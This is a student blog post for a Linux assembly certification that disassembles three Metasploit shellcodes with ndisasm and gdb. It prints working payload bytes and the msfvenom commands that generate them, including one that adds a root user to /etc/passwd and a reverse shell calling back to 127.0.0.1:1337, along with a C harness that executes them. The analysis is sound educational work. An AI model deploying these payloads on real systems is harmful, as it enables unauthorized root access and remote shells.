# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 5
For the fifth assignment I need to solve the following tasks:
* Take up at least 3 shellcode samples created using MSFpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis
___

</br>

The Msfpayload tool was renamed to msfvenom so we have to use this. We can list all available shellcodes for linux x86 as seen in the following screenshot:


___

## linux/x86/adduser
This is the first payload I want to analyse. I generate the shellcode with the following command and with the user named user1 and the password123.


``` c
msfvenom -p linux/x86/adduser USER=user1 PASS=password123 -f C –platform linux -a x86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 92 bytes
Final size of c file: 413 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x75\x73"
"\x65\x72\x31\x3a\x41\x7a\x53\x7a\x42\x32\x75\x79\x38\x4a\x46"
"\x6c\x6b\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f"
"\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58"
"\xcd\x80";
```
First we can have a look on the assembly instructions and see the executed calls. For this we can use:
``` bash
Echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x75\x73\x65\x72\x31\x3a\x41\x7a\x53\x7a\x42\x32\x75\x79\x38\x4a\x46\x6c\x6b\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u- -
```
Then we cann see all the assembly instructions for this shellcode:
``` assembly
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E823000000        call 0x4e
0000002B  7573              jnz 0xa0
0000002D  657231            gs jc 0x61
00000030  3A417A            cmp al,[ecx+0x7a]
00000033  53                push ebx
00000034  7A42              jpe 0x78
00000036  327579            xor dh,[ebp+0x79]
00000039  384A46            cmp [edx+0x46],cl
0000003C  6C                insb
0000003D  6B3A30            imul edi,[edx],byte +0x30
00000040  3A30              cmp dh,[eax]
00000042  3A3A              cmp bh,[edx]
00000044  2F                das
00000045  3A2F              cmp ch,[edi]
00000047  62696E            bound ebp,[ecx+0x6e]
0000004A  2F                das
0000004B  7368              jnc 0xb5
0000004D  0A598B            or bl,[ecx-0x75]
00000050  51                push ecx
00000051  FC                cld
00000052  6A04              push byte +0x4
00000054  58                pop eax
00000055  CD80              int 0x80
00000057  6A01              push byte +0x1
00000059  58                pop eax
0000005A  CD80              int 0x80
```
We'll directly jump into gdb to analyze the shellcode and registers in more detail. So we add our shellcode to the C program, compile and start with gdb.
``` c
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x75\x73"
"\x65\x72\x31\x3a\x41\x7a\x53\x7a\x42\x32\x75\x79\x38\x4a\x46"
"\x6c\x6b\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f"
"\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58"
"\xcd\x80";

void main()
{


        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
We can now set a breakpoint when our code is executed:

### setruid
``` assembly
0x0804c040 <+0>:	xor    ecx,ecx
0x0804c042 <+2>:	mov    ebx,ecx
0x0804c044 <+4>:	push   0x46
0x0804c046 <+6>:	pop    eax
0x0804c047 <+7>:	int    0x80
```
We can see here that first ecx, and ebx is set to zero. Then 0x46 is pushed and poped in eax and then syscall is executed. We can look up what 0x46 in eax means in the [manual](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) and we find out it's the setreuid call. This is been used to set the real and effective user id in that case to 0.

``` c
int setreuid(uid_t ruid, uid_t euid)
```



### open
The next instructions until the next int 0x80 are the following:
``` assembly
0x0804c049 <+9>:	push   0x5
0x0804c04b <+11>:	pop    eax
0x0804c04c <+12>:	xor    ecx,ecx
0x0804c04e <+14>:	push   ecx
0x0804c04f <+15>:	push   0x64777373
0x0804c054 <+20>:	push   0x61702f2f
0x0804c059 <+25>:	push   0x6374652f
0x0804c05e <+30>:	mov    ebx,esp
0x0804c060 <+32>:	inc    ecx
0x0804c061 <+33>:	mov    ch,0x4
0x0804c063 <+35>:	int    0x80
```
We can see that eax is loaded with 0x5 which is the open function.
```c
int open(const char *pathname, int flags, mode_t mode);
```
After that a null and some hexcodes are pushed to the stack. When we decode this in reverse order we can see that this is the string /etc//passwd which is pushed and the pointer is saved in ebx. Reading the manual in ebx is the pointer to the file which should be opened. In this function ecx is used for flags. Here ecx is increased to 1 and then increased to 0x401 which stands for the Flags O_WRONLY|O_APPEND. After preparing the arguments the function is executed.



### write
The next instructions are first a little bit complex but we'll see with gdb how easy they are to understand.
``` assembly
0x0804c065 <+37>:	xchg   ebx,eax
0x0804c066 <+38>:	call   0x804c08e <code+78>
0x0804c06b <+43>:	jne    0x804c0e0
0x0804c06d <+45>:	gs jb  0x804c0a1
0x0804c070 <+48>:	cmp    al,BYTE PTR [ecx+0x7a]
0x0804c073 <+51>:	push   ebx
0x0804c074 <+52>:	jp     0x804c0b8
0x0804c076 <+54>:	xor    dh,BYTE PTR [ebp+0x79]
0x0804c079 <+57>:	cmp    BYTE PTR [edx+0x46],cl
0x0804c07c <+60>:	ins    BYTE PTR es:[edi],dx
0x0804c07d <+61>:	imul   edi,DWORD PTR [edx],0x30
0x0804c080 <+64>:	cmp    dh,BYTE PTR [eax]
0x0804c082 <+66>:	cmp    bh,BYTE PTR [edx]
0x0804c084 <+68>:	das    
0x0804c085 <+69>:	cmp    ch,BYTE PTR [edi]
0x0804c087 <+71>:	bound  ebp,QWORD PTR [ecx+0x6e]
0x0804c08a <+74>:	das    
0x0804c08b <+75>:	jae    0x804c0f5
0x0804c08d <+77>:	or     bl,BYTE PTR [ecx-0x75]
0x0804c090 <+80>:	push   ecx
0x0804c091 <+81>:	cld    
0x0804c092 <+82>:	push   0x4
0x0804c094 <+84>:	pop    eax
0x0804c095 <+85>:	int    0x80
```
The fist command changes contents of the registers ebx and eax. And then there is the call instcution executed which points to another address from the assembly inscructions. This will push the address of the next instruction to the stack. First this seems strange because there is no jump back so these instructions will not be executed. But if we have a look in gdb wee see that these instructions are the actual string which is appended to the /etc/passwd file. 



After the call this pointer is again poped to the ecx register.



So in the end the instructions can be shorted to:
``` assembly
0x0804c065 <+37>:	xchg   ebx,eax
0x0804c066 <+38>:	call   0x804c08e <code+78>
... here is the data/string saved which will be appended to the /etc/passwd
0x0804c090 <+80>:	push   ecx
0x0804c091 <+81>:	cld    
0x0804c092 <+82>:	push   0x4
0x0804c094 <+84>:	pop    eax
0x0804c095 <+85>:	int    0x80
```
After that the flags are cleared with cld and 0x4 will be set to 0x4 which is for the write function.
``` c
ssize_t write(int fd, const void *buf, size_t count);
```
So in the end we have in ebx the id from the open function and in ecx the string which will be appended and in edx the length.



### exit
``` assembly
0x0804c097 <+87>:	push   0x1
0x0804c099 <+89>:	pop    eax
0x0804c09a <+90>:	int    0x80
```
The last commands save 0x1 in eax which stands for the exit function which is then executed.
``` c
noreturn void _exit(int status);
```



After executing the complete program We can take a look in the /etc/passwd and we see that our user1 is added with a password



___


## linux/x86/exec
The second payload I want to analyze is linux/x86/exec
``` c
msfvenom -p linux/x86/exec CMD="touch HelloWorld.txt" -f C –platform linux -a x86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 56 bytes
Final size of c file: 260 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x15\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x48\x65\x6c\x6c\x6f\x57\x6f\x72\x6c\x64"
"\x2e\x74\x78\x74\x00\x57\x53\x89\xe1\xcd\x80";
```
In the fist shellcode I used ndiasm already so I will jump direclty in gdb and the ndiasm output is anyway in github with the compiled c file. The shellcode instructions for this shellcode in gdb are the following:
```
0x0804c040 <+0>:	push   0xb
0x0804c042 <+2>:	pop    eax
0x0804c043 <+3>:	cdq    
0x0804c044 <+4>:	push   edx
0x0804c045 <+5>:	pushw  0x632d
0x0804c049 <+9>:	mov    edi,esp
0x0804c04b <+11>:	push   0x68732f
0x0804c050 <+16>:	push   0x6e69622f
0x0804c055 <+21>:	mov    ebx,esp
0x0804c057 <+23>:	push   edx
0x0804c058 <+24>:	call   0x804c072 <code+50>
0x0804c05d <+29>:	je     0x804c0ce
0x0804c05f <+31>:	jne    0x804c0c4
0x0804c061 <+33>:	push   0x6c654820
0x0804c066 <+38>:	ins    BYTE PTR es:[edi],dx
0x0804c067 <+39>:	outs   dx,DWORD PTR ds:[esi]
0x0804c068 <+40>:	push   edi
0x0804c069 <+41>:	outs   dx,DWORD PTR ds:[esi]
0x0804c06a <+42>:	jb     0x804c0d8
0x0804c06c <+44>:	fs cs je 0x804c0e8
0x0804c070 <+48>:	je     0x804c072 <code+50>
0x0804c072 <+50>:	push   edi
0x0804c073 <+51>:	push   ebx
0x0804c074 <+52>:	mov    ecx,esp
0x0804c076 <+54>:	int    0x80
```

First let me explain what happens in this first block:
```
0x0804c040 <+0>:	push   0xb
0x0804c042 <+2>:	pop    eax
0x0804c043 <+3>:	cdq    
0x0804c044 <+4>:	push   edx
0x0804c045 <+5>:	pushw  0x632d
0x0804c049 <+9>:	mov    edi,esp
0x0804c04b <+11>:	push   0x68732f
0x0804c050 <+16>:	push   0x6e69622f
0x0804c055 <+21>:	mov    ebx,esp
0x0804c057 <+23>:	push   edx
0x0804c058 <+24>:	call   0x804c072 <code+50>
```

We see that in eax the value 0xb which stands in syscall for execve. 
``` c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```
Then we clear the flags and push a zero to the stack. After that we push 0x632d which stands for -c and save a pointer to this in edi register. Then we push 0x68732f and 0x6e69622f which is the notation for /bin/sh. The pointer to this we store in ebx. Then we are calling an instruction at <code+50> and we'll not return which is exactly similiar to the first analyzed shellcode. So all the instructions between this and <code+50> are no real instructions and are data which we'll need. When we call something the pointer to the following instruction is saved on the stack so we now have a pointer to that data on the stack. So in gdb we can now see on the stack that pointer and the data behind that address. So the data we jumped over is the command touch HelloWorld.txt which we want to execute.



```
0x0804c072 <+50>:	push   edi
0x0804c073 <+51>:	push   ebx
0x0804c074 <+52>:	mov    ecx,esp
0x0804c076 <+54>:	int    0x80
```

Than we just push edi which is -c and then we push ebx which is /bin/sh. Now the stack has the command /bin/sh -c touch HelloWorld.txt. Now it takes the address on top of this command/stack to the ecx register and then executes the syscall execve. 



Now a text document named HelloWorld.txt should be created in the folder.

___

## linux/x86/shell_reverse_tcp
As the last payload I wanto analyze the linux/x86/shell_reverse_tcp to have a look how it is different then my reverse shell from assignment 2.

``` c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f C –platform linux -a x86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

We will jump direclty in the GDB disassembly which is the following:
```
0x0804c040 <+0>:	xor    ebx,ebx
0x0804c042 <+2>:	mul    ebx
0x0804c044 <+4>:	push   ebx
0x0804c045 <+5>:	inc    ebx
0x0804c046 <+6>:	push   ebx
0x0804c047 <+7>:	push   0x2
0x0804c049 <+9>:	mov    ecx,esp
0x0804c04b <+11>:	mov    al,0x66
0x0804c04d <+13>:	int    0x80
0x0804c04f <+15>:	xchg   ebx,eax
0x0804c050 <+16>:	pop    ecx
0x0804c051 <+17>:	mov    al,0x3f
0x0804c053 <+19>:	int    0x80
0x0804c055 <+21>:	dec    ecx
0x0804c056 <+22>:	jns    0x804c051 <code+17>
0x0804c058 <+24>:	push   0x100007f
0x0804c05d <+29>:	push   0x39050002
0x0804c062 <+34>:	mov    ecx,esp
0x0804c064 <+36>:	mov    al,0x66
0x0804c066 <+38>:	push   eax
0x0804c067 <+39>:	push   ecx
0x0804c068 <+40>:	push   ebx
0x0804c069 <+41>:	mov    bl,0x3
0x0804c06b <+43>:	mov    ecx,esp
0x0804c06d <+45>:	int    0x80
0x0804c06f <+47>:	push   edx
0x0804c070 <+48>:	push   0x68732f6e
0x0804c075 <+53>:	push   0x69622f2f
0x0804c07a <+58>:	mov    ebx,esp
0x0804c07c <+60>:	push   edx
0x0804c07d <+61>:	push   ebx
0x0804c07e <+62>:	mov    ecx,esp
0x0804c080 <+64>:	mov    al,0xb
0x0804c082 <+66>:	int    0x80
```

I will divide it in the blocks of each syscall. I will not go so in detail of the functions and arguments because that I already did in the second assignment.

### socketcall - socket
```
0x0804c040 <+0>:	xor    ebx,ebx
0x0804c042 <+2>:	mul    ebx
0x0804c044 <+4>:	push   ebx
0x0804c045 <+5>:	inc    ebx
0x0804c046 <+6>:	push   ebx
0x0804c047 <+7>:	push   0x2
0x0804c049 <+9>:	mov    ecx,esp
0x0804c04b <+11>:	mov    al,0x66
0x0804c04d <+13>:	int    0x80
```
First ebx and eax is set to zero and zero is pushed to the stack. Ebx will then be increased to 1 and also pushed to the stack which is the argument type which stands for SOCK_STREAM and will be used by the function. Then 0x2 is pushed to the stack which stands for AF_INET as the domain argument. Then the pointer to the top of the stack/arguments is saved in ecx. In eax 0x66 is moved which is the execution of socketcall. We set before the ebx to 1 which stands is the call for socket so a socket will be created here after the syscall is execued with int 0x80.



### dup2  
```
0x0804c04f <+15>:	xchg   ebx,eax
0x0804c050 <+16>:	pop    ecx
0x0804c051 <+17>:	mov    al,0x3f
0x0804c053 <+19>:	int    0x80
0x0804c055 <+21>:	dec    ecx
0x0804c056 <+22>:	jns    0x804c051 <code+17>
```
Here we see that ebx and eax change registers and the 0x2 is poped from the stack to ecx. Then 0x3f is saved in eax which is the dup2 function which is for duplicating file descriptor. This will be executed and the ecx will be decreased by 1. Then this function will be called again until ecx is negative. So this will be called 3 times (so for stderr, stdout, stdin).



### socketcall - connect
```
0x0804c058 <+24>:	push   0x100007f
0x0804c05d <+29>:	push   0x39050002
0x0804c062 <+34>:	mov    ecx,esp
0x0804c064 <+36>:	mov    al,0x66
0x0804c066 <+38>:	push   eax
0x0804c067 <+39>:	push   ecx
0x0804c068 <+40>:	push   ebx
0x0804c069 <+41>:	mov    bl,0x3
0x0804c06b <+43>:	mov    ecx,esp
0x0804c06d <+45>:	int    0x80
```
First there are two pushes executed. First we see the adress to connect to which is in this case 127.0.0.1. The next push pushes the word for the network byte ordered port 1337 together with the adress family AF_INET (2). The address of the top of the stack / arguments is saved to ecx. Then the length of the struct is pushed followed by the address of the struct which is in ecx and then also the sockfd. Eax is loaded with 0x66 which is again socketcall and ebx to 0x3 which is the connect function.



### execve
```
0x0804c06f <+47>:	push   edx
0x0804c070 <+48>:	push   0x68732f6e
0x0804c075 <+53>:	push   0x69622f2f
0x0804c07a <+58>:	mov    ebx,esp
0x0804c07c <+60>:	push   edx
0x0804c07d <+61>:	push   ebx
0x0804c07e <+62>:	mov    ecx,esp
0x0804c080 <+64>:	mov    al,0xb
0x0804c082 <+66>:	int    0x80
```
Here we see the normal execution of a shell. Pushing 0x68732f6e and 0x69622f2f means //bin/sh and the pointer to this we save in ebx. Then we push this pointer to the stack and also zero which are the arguments for the function. Again the pointer to these arguments are saved in ecx. Then in eax will be loaded with 0xb which is the execve function. Then this syscall will be executed.



There is not a big difference then in my second assignment where the task was to write a reverse shell. I thought that this msfpayload would have more interesting and advanced techniques.


